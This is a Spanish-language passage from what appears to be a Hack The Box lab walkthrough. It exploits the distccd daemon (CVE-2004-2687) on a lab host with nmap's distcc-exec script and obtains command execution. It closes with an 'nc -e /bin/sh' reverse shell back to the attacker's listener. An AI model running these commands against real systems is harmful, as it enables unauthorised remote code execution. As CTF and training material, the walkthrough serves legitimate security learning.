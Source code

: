 Pero parece ser que no funciona correctamente que no se puede explotar bueno vamos a seguir investigando cosas.

### Puerto 3632 (distccd)

```shell
nmap -p 3632 -sCV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-08 03:21 CEST
Nmap scan report for 10.10.10.3
Host is up (0.038s latency).

PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

Nos descargamos el siguiente script .nse

```shell
wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse -O /usr/share/nmap/scripts/distcc-exec.nse
```

Vemos que es vulnerable y podemos ejecutar comandos

```shell
nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='id'"

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-exec: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|_      https://distcc.github.io/security.html
```

Hacemos una reverse shell

```shell
> nc -lvnp 443 # En otra ventana
```

```shell
> nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.14.2 443'"
```
